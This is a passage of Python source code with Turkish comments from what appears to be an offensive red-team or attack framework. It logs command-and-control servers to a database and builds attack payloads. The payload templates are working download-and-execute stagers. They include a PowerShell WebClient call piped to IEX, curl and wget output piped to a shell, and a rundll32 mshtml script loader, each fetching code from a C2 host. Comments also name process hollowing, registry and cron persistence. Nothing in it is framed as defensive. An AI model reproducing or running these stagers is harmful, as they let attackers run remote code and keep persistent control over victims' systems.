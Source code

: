 ```python
            INSERT INTO c2_infrastructure 
            (operation_id, server_type, domain, ip_address, port, 
             protocol, status, deployment_date)
            VALUES (?, ?, ?, ?, ?, ?, ?, ?)
        ''', (
            operation_id,
            c2_info['server_type'],
            c2_info['domain'],
            c2_info['ip_address'],
            c2_info['port'],
            c2_info['protocol'],
            'active',
            datetime.now().date()
        ))
        
        conn.commit()
        conn.close()
        
        self.c2_servers.append(c2_info)
        
        print(f"[+] C2 infrastructure deployed: {c2_info['domain']}:{c2_info['port']}")
        return c2_info
    
    def generate_payload(self, payload_type: str, target_os: str, 
                        c2_server: str, evasion_techniques: List[str]) -> Dict:
        """Özel payload oluştur"""
        payload_templates = {
            'powershell_empire': {
                'windows': '''
$wc = New-Object System.Net.WebClient;
$wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36");
$data = $wc.DownloadString("{c2_server}/stage");
IEX $data;
''',
                'linux': '''
#!/bin/bash
curl -s -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64)" {c2_server}/stage | bash
'''
            },
            'cobalt_strike': {
                'windows': '''
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:{c2_server}/beacon")
''',
                'linux': '''
wget -q -O - {c2_server}/beacon | sh
'''
            },
            'custom_implant': {
                'windows': '''
# Custom Windows implant template
# Encrypted C2 communication
# Process hollowing injection
# Registry persistence
''',
                'linux': '''
# Custom Linux implant template
# Encrypted C2 communication
# Cron persistence
# Memory-only execution
'''
            }
        }
```